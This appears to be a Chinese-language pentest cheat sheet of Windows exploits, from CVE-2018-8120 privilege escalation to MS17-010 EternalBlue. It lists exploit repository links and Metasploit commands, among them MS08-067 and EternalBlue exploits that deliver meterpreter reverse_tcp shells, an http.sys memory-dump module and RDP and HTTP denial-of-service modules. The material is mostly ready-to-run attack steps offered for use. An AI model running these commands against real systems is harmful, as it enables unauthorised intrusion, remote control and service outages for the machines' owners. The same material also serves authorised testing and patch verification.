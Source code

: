 **本地提权类**
- **CVE-2018-8120**
    - POC | Payload | exp
        - [unamer/CVE-2018-8120: CVE-2018-8120 Windows LPE exploit](https://github.com/unamer/CVE-2018-8120)
        - [alpha1ab/CVE-2018-8120: CVE-2018-8120 Exploit for Win2003 Win2008 WinXP Win7](https://github.com/alpha1ab/CVE-2018-8120)

**远程利用类**
- **MS08-067 & CVE-2008-4250**
    - MSF 模块
        ```bash
        use exploit/windows/smb/ms08_067_netapi
        set payload windows/x64/meterpreter/reverse_tcp
        set target 0
        ```

- **MS12-020 & CVE-2012-0002**
    - MSF 模块
        ```bash
        use auxiliary/scanner/rdp/ms12_020_check
        use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
        ```

- **MS14-066 & CVE-2014-6321**
    - POC | Payload | exp
        - [anexia-it/winshock-test](https://github.com/anexia-it/winshock-test)

- **MS15-034 & CVE-2015-1635**
    - POC | Payload | exp
        - [MS15-034 Checker](https://pastebin.com/ypURDPc4)

    - 文章
        - [MS15-034/CVE-2015-1635 HTTP远程代码执行漏洞分析](http://blogs.360.cn/post/cve_2015_6135_http_rce_analysis.html)

    - MSF 模块
        ```bash
        use auxiliary/scanner/http/ms15_034_http_sys_memory_dump    # 读取服务器内存数据
        use auxiliary/dos/http/ms15_034_ulonglongadd    # 进行 dos 攻击
        ```

- **MS17-010**
    - MSF 模块
        ```bash
        # 发现,检测
        use auxiliary/scanner/smb/smb_ms17_010
        set rhosts <ip>
        run

        # 使用 payload 连上去
        use exploit/windows/smb/ms17_010_eternalblue
        set payload windows/x64/meterpreter/reverse_tcp
        set lhost <ip>  # 设一下本机地址
        set rhosts <ip>
        run
